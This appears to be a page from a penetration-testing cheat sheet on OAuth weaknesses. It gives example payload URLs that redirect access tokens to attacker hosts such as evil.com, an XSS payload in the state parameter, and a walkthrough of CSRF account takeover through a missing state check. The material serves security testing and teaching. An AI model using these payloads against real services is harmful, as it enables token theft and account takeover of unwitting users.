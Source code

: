 ```yaml
---
title: "0Auth Authentication"
draft: false
images: []
menu:
  docs:
    parent: "Web"
weight: 100
toc: true
---
```


## Grabbing OAuth Token via redirect_uri
Redirect to a controlled domain to get the access token
```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```
Redirect to an accepted Open URL in to get the access token
```
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
```
### Executing XSS via redirect_uri
```
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```
### Improper handling of state parameter
This is by far the most common issue I see in OAuth implementations. Very often, the state parameter is completely omitted or used in the wrong way. If a state parameter is nonexistent, or a static value that never changes, the OAuth flow will very likely be vulnerable to CSRF. Sometimes, even if there is a state parameter, the application might not do any validation of the parameter and an attack will work. The way to exploit this would be to go through the authorization process on your own account, and pause right after authorizing. You will then come across a request such as:
```
https://yourtweetreader.com?code=asd91j3jd91j92j1j9d1
```
After you receive this request, you can then drop the request because these codes are typically one-time use. You can then send this URL to a logged-in user, and it will add your account to their account. At first, this might not sound very sensitive since you are simply adding your account to a victim’s account. However, many OAuth implementations are for sign-in purposes, so if you can add your Google account which is used for logging in, you could potentially perform an Account Takeover with a single click as logging in with your Google account would give you access to the victim’s account.